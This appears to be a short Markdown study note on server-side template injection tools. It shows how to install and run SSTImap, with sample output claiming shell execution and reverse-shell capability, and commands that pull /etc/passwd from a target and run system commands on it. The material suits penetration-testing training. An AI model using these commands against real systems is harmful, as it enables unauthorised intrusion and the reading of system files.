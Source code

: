 # 🛠️ SSTI Tools of the Trade & 🛡️ Preventing SSTI

## 🔍 Tools of the Trade

### ✅ Recommended Tool: **SSTImap**
- Modern tool for identifying and exploiting SSTI vulnerabilities.
- Based on the older `tplmap` (Python2, unmaintained).
- Supports multiple template engines and languages.

#### 📦 Installation:
```bash
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```

#### 🧪 Basic Usage:
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test
```

##### Sample Output:
```
[+] SSTImap identified the following injection point:
  Query parameter: name
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:
    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code
```

---

## 📂 Common SSTImap Features

### 🔸 Download Remote Files:
```bash
python3 sstimap.py -u http://target/index.php?name=test -D '/etc/passwd' './passwd'
```

### 🔸 Execute System Commands:
```bash
python3 sstimap.py -u http://target/index.php?name=test -S id
```
